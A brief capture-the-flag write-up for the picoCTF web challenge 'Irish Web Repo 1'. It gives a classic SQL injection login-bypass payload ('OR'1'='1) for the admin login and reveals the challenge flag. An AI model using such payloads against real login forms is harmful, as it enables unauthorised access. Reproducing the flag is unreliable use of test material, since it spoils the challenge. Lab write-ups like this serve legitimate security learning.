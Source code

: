 # Irish Web Repo 1 (Web)

![title](images/title.png)

Navigate to admin login

Simple SQL Injection

```sql
'OR'1'='1
```

<details>
	<summary>Flag</summary>

picoCTF{s0m3_SQL_93e76603}
</details>